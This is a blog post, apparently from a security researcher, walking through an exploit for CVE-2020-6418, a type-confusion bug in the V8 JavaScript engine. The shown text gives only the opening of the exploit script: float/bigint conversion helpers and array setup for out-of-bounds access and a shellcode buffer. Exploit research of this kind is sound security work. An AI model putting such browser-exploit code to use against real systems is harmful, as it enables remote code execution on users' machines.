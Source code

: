 ```yaml
---
layout: post
read_time: true
show_date: true
title: "CVE-2020-6418-Exploit(EN)"
date: 2025-02-13
img: posts/20240925/v8_picture.png
tags: [V8, 1-day, Exploit]
category: Exploit
author: adawn0106
description: "CVE-2020-6418-Exploit(EN)"
comments: true

---
```



I will explain how to exploit the remaining parts of the PoC that I explained last time. <br>

This time, I referred to that blog again. <br>
https://cwresearchlab.co.kr/entry/CVE-2020-6418-Incorrect-side-effect-modelling-for-JSCreate

<br><br><br>

## Exploit
---

<br><br><br>

The full source code is as follows.

<br><br><br>

```js
/* ex.js */

let fi_buf = new ArrayBuffer(8);  // shared buffer
let f_buf = new Float64Array(fi_buf);  // buffer for float
let i_buf = new BigUint64Array(fi_buf);  // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

ITERATIONS = 100000;

let a = [0.1, , , , , , , , , , , , , , , 0.2, 0.3, 0.4];
let oob_arr = undefined;  // array for OOB
let obj_arr = undefined;  // array of objects
let buf = undefined;  // ArrayBuffer for shellcode

a.pop();
a.pop();
a.pop();

```